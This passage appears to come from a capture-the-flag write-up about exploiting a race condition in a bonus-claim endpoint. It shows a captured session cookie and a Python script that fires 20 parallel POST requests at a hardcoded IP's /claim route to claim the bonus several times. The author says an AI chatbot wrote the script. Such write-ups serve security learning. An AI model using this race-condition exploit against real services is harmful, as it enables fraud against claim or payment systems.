 `.eJyrViotTi3KS8xNVbJSyqtMzC3NRgFKtQDiHw0f.Z_n4vw.wyp2BKfyvhs03ntNPfjjMQLohWk`

Next, I asked my best duo gpt to create me a Python script to send 20+ parallel `POST` requests to `/claim`.

Exploit.py:

```bash
import threading
import requests

# Settings
url = "http://159.69.219.192:7859/claim"
session_cookie = ".eJyrViotTi3KS8xNVbJSyqtMzC3NRgFKtQDiHw0f.Z_n4vw.wyp2BKfyvhs03ntNPfjjMQLohWk"
threads_count = 20  # You can increase this for heavier attack

# Function to send POST request
def claim_bonus():
    cookies = {'session': session_cookie}
    try:
        response = requests.post(url, cookies=cookies, timeout=3)
        print(f"[+] Status: {response.status_code} | Length: {len(response.text)}")
    except Exception as e:
        print(f"[!] Error: {e}")

# Create threads
threads = []
for i in range(threads_count):
    t = threading.Thread(target=claim_bonus)
    t.start()
    threads.append(t)

# Wait for all threads to complete
for t in threads:
    t.join()

print("[*] Finished sending all claim requests.")
```

![Output Exploit](img/exploitoutput.png)
